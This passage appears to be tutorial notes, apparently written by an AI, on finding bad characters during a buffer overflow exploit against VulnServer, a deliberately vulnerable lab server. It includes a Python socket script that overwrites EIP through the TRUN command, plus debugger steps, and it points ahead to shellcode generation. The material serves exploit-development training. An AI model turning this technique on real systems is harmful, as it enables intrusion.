         ```Python
        #!/usr/bin/env python3
        import sys, socket
        
        # Replace the EIP overwrite with "B" characters and follow it with bad characters list
        bad_chars = (
            "\\x01\\x02\\x03\\x04\\x05\\x06\\x07\\x08\\x09\\x0a\\x0b\\x0c\\x0d\\x0e\\x0f\\x10"
            "\\x11\\x12\\x13\\x14\\x15\\x16\\x17\\x18\\x19\\x1a\\x1b\\x1c\\x1d\\x1e\\x1f\\x20"
            # Continue with all hex values up to \\xff, excluding \\x00
        )
        payload = "A" * 2003 + "B" * 4 + bad_chars
        
        try:
            s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            s.connect(("192.168.1.90", 9999))  # Replace with VulnServer's IP
            s.send(("TRUN /.:/" + payload).encode('latin-1'))
            s.close()
        except:
            print("Error connecting to server")
            sys.exit()
        ```
        
    - **Explanation**:
        - `**"A" * 2003**`: Fills buffer up to the EIP.
        - `**"B" * 4**`: Overwrites EIP for visibility in Immunity Debugger.
        - `**bad_chars**`: Sends a sequence of all characters from `\\x01` to `\\xFF`, testing each one’s effect on the program.
4. **Running the Script and Analyzing the Hex Dump**:
    - After running the script, monitor **Immunity Debugger**.
    - Check the **ESP** register and select "Follow in Dump" to view the hexadecimal data.
    - **Examine the Hex Dump**:
        - Verify that each character from `\\x01` to `\\xFF` appears in sequence.
        - If a character is missing or incorrectly displayed, it indicates a **bad character**.
5. **Example of Bad Character Identification**:
    - If characters like `\\x04` or `\\x05` are missing in sequence (e.g., jumps from `\\x03` to `\\x06`), mark these as bad characters to exclude from shellcode generation.
    - Note down all problematic characters for later exclusion.
6. **Final Steps**:
    - For _VulnServer_, typically only `\\x00` is problematic. Future steps include:
        - **Finding the Right Module**: Ensuring the payload executes in unprotected memory.
        - **Generating Shellcode**: Creating the final payload with the bad characters excluded to gain root access.

---

These notes cover the essentials for testing bad characters in buffer overflow exploitation. Let me know if you'd like these notes saved as a .txt file.

# Finding the Right Module

